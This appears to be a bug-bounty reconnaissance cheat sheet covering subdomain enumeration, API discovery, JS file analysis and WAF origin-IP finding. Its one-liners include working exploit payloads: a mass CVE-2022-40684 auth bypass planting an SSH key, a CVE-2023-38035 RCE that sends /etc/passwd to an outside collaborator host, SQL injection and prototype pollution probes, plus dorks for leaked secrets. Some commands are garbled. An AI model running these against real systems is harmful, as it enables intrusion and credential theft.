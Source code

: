 # Reconnaissance

## Subdomain Enumeration

> **Tools**

* https://github.com/h0tak88r/AutoSubRecon
* [https://github.com/h0tak88r/reconraptor](https://github.com/h0tak88r/reconraptor)
* [https://github.com/h0tak88r/subfalcon](https://github.com/h0tak88r/subfalcon)
* https://github.com/h0tak88r/submonit88r
* https://github.com/bing0o/SubEnum
* https://github.com/shmilylty/OneForAll

> **Write ups**

* https://h0tak88r.medium.com/mastering-subdomain-enumeration-6c84571b07b
* https://h0tak88r.github.io/posts/Deep-Subdomains-Enumeration/
*

## API Recon

1. Check for documentation
   * Swagger -> `/openapi.json`
   * GraphQL -> https://graphql.org/learn/introspection/ -> https://github.com/prisma-labs/get-graphql-schema
   * manual -> `site:target.tld intitle:api | developer`
2. Search for APIs
   * `site:target.tld inurl:api`
   * `intitle:"index of" "api.yaml" site:target.tld`
   * `intitle:"index of" intext:"apikey.txt" site:target.tld`
   * `allintext:"API_SECRET*" ext:env | ext:yml site:target.tld`
3. Enumerate endpoints / methods
   * https://wordlists-cdn.assetnote.io/data/automated/httparchive\_apiroutes\_2023\_08\_28.txt
   * swagger -> https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/swagger.txt
   * Tools -> [ffuf](https://github.com/ffuf/ffuf#post-data-fuzzing) -> [kiterunner](https://github.com/assetnote/kiterunner)

## One-liners & Quick Wins

```bash
# Grep emails and other PII Data from URLs file
grep -E -o '\\\\\\\\b[a-zA-Z0-9._%+-]+@[a-zA-Z0-9.-]+\\\\\\\\.[a-zA-Z]{2,}\\\\\\\\b' urls.txt

#Extract Endpoints from JavaScript
cat FILE.js | grep -oh "\\\\\\\\"\\\\\\\\/[a-zA-Z0-9_/?=&]&\\\\\\\\""| sed -e 's/^"//' -e 's/"$//' | sort -u

#Get CIDR & Org Information from Target Lists
for HOST in $(cat HOSTS.txt); do echo (for ip in $(dig a $HOST +short); do whois $ip | grep -e "CIDR\\\\\\\\|Organization" | tr -s " | paste -; done | uniq); done
"
#Prototype Pollution
subfinder -d HOST -all -silent ❘ httpx -silent -threads 300 | anew -q FILE.txt && sed 's/$/\\\\\\\\/?_proto_[testparam]=exploit\\\\\\\\//' FILE.txt | page- fetch -j 'window.testparam == "exploit"? "[VULNERABLE]": "[NOT VULNERABLE]" | sed "s/(//g" sed "s/)//g" | sed "s/JS //g" | grep "VULNERABLE"
'
# Sitemap SQL Injection
cat urls.txt | httpx -silent -path 'sitemap.xml?offset=1%3bSELECT%20IF((8303%3E8302)%2cSLEEP(10)%2c2356)%23' -rt -timeout 20 -mrt '>10'

# Authentication Bypass (CVE-2022-40684) POC --> <https://twitter.com/h4x0r_dz/status/1580648642750296064/photo/1>
ffuf -w "host_list.txt:URL" -u "<https://URL/api/v2/cmdb/system/admin/admin>" -X PUT -H 'User-Agent: Report Runner' -H 'Content-Type: application/json' -H 'Forwarded: for="[127.0.0.1]:8000";by=”[127.0.0.1]:9000";' -d '{"ssh-public-key1": "h4x0r"}' -mr "SSH" -r

## CVE-2023-26256 -> <https://github.com/aodsec/CVE-2023-26256>
git clone <https://github.com/aodsec/CVE-2023-26256.git>
python3 CVE-2023-26256.py -h

# CVE-2023-38035 - Unauth. RCE
python3 -c "from pyhessian.client import HessianProxy as H; H('https://TARGET-DOMAIN:8443/mics/services/MICSLogService').uploadFileUsingFileInput({'command': 'curl -X POST -d @/etc/passwd [BURP-COLLABORATOR-URL.com](https://burp-collaborator-url.com/)', 'isRoot': True}, None)"

# Quick Port Scanning with Fuzzing
cat ips.txt|naabu -silent -tp 1000 -o top1k.txt;cat top1k.txt|grep -vE ':80|:443' | httpx -silent -fc 400,503,204,405 -o httpx.txt;cat httpx.txt|python3 [dirsearch.py](https://dirsearch.py/) --stdin -e '*' -t 60 -w onelistforall.txt -i 200,301,302 --format plain -o report.txt

# SSRF use Autorize Exxtension Match and replace 
https?://(www.)?[-a-zA-Z0–9@:%.+~#=]{1,256}.[a-zA-Z0–9()]{1,6}\b([-a-zA-Z0–9()@:%+.~#?&//=]*)

```

***

## Fingerprinting

*   Port Scanning [https://github.com/nullt3r/jfscan](https://github.com/nullt3r/jfscan)

    ```bash
    # Before installation
    sudo apt install libpcap-dev
    sudo apt-get --assume-yes install git make gcc
    #masscan
    git clone <https://github.com/robertdavidgraham/masscan>
    cd masscan
    make
    sudo make install
    sudo setcap CAP_NET_RAW+ep /usr/bin/masscan
    sudo apt install python3 python3-pip
    # install jfscan
    git clone <https://github.com/nullt3r/jfscan.git>
    cd jfscan
    cd jfscan
    # incase of error running 
    export PATH="$HOME/.local/bin:$PATH"
    ```
*   Waf Detect

    ```bash
    nuclei -l urls.txt -t nuclei_templates/waf
    sudo apt install wafw00f
    wafw00f -l urls.txt
    ```
*   [**uncover**](https://github.com/projectdiscovery/uncover) >> discover exposed hosts on the internet. It is built with automation in mind, so you can query it and utilize the results with your current pipeline tools.

    ```python
    # installation
    go install -v github.com/projectdiscovery/uncover/cmd/uncover@latest
    # configuration file 
    $HOME/.config/uncover/provider-config.yaml
    # usage
    uncover -q "test.com" -e censys,fofa,shodan
    ```

## JS Files

> **Tools**

* [Scripts/python scripts/JS\_Leaks\_spider.py](https://github.com/h0tak88r/Scripts/blob/main/python%20scripts/JS\_Leaks\_spider.py)
* Use This Extension to analyse JS Files [FindSomething - Chrome Web Store (google.com)](https://chrome.google.com/webstore/detail/findsomething/kfhniponecokdefffkpagipffdefeldb/related)
* [Can analyzing javascript files lead to remote code execution? | by Asem Eleraky | Medium](https://melotover.medium.com/can-analyzing-javascript-files-lead-to-remote-code-execution-f24112f1aa1f)

```bash
# Collect JS Files
katana -list targets.txt -jc | grep “\\.js$” | uniq | sort -u | tee JS.txt

# or use gau tool
cat targets.txt | gau |  grep “\\.js$” | uniq | sort -u | tee JS2.txt

# Analyzing JS files
nuclei -l JS.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
nuclei -l JS2.txt -t ~/nuclei-templates/exposures/ -o js_exposures_results.txt
cat Js_urls.txt | Mantra



# Download all JS files 
file="JS.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

file="JS2.txt"
while IFS= read -r link
do
    wget "$link"
done < "$file"

# Use This Regex to search for sensitive info 
grep -r -E "aws_access_key|aws_secret_key|api key|passwd|pwd|heroku|slack|firebase|swagger|aws_secret_key|aws key|password|ftp password|jdbc|db|sql|secret jet|config|admin|pwd|json|gcp|htaccess|.env|ssh key|.git|access key|secret token|oauth_token|oauth_token_secret|smtp|GTM-" *.js

```

## Bypass WAF and Find Origin IPs

### Using hakoriginfinder&#x20;

* References:
* &#x20;[https://x.com/Jayesh25\_/status/1735240906750443851?s=35](https://x.com/Jayesh25\_/status/1735240906750443851?s=35)
* [https://github.com/hakluke/hakoriginfinder](https://github.com/hakluke/hakoriginfinder)

1. Discover your target's ASN and check [https://bgp.he.net/AS33848#\_prefixes…](https://t.co/0pQS70hOLL) &#x20;
2. Make a note of the target's IP range.&#x20;
3. Assuming you have a WAF-protected domain called example\[.]com. Use this command with the IP range Identified in step 1 and pass your target host against the -h parameter:

```bash
prips 93.184.216.0/24 | hakoriginfinder -h example.com
```

If you receive a "MATCH" output, there's a strong likelihood that you've successfully identified the Origin IP. Now, you can send requests with the same Host header to bypass WAF

### Using Netlas/Shodan&#x20;

* [https://x.com/Jayesh25\_/status/1843646332239544341](https://x.com/Jayesh25\_/status/1843646332239544341)

1. Go to [Netlas](https://app.netlas.io/registration/), [shodan](https://www.shodan.io/), SecurityTrails or other similar platforms&#x20;
2. &#x20;Make filters like `http.title:"My_target_title"`
3. Sometyimes There is Origin IPs exposed
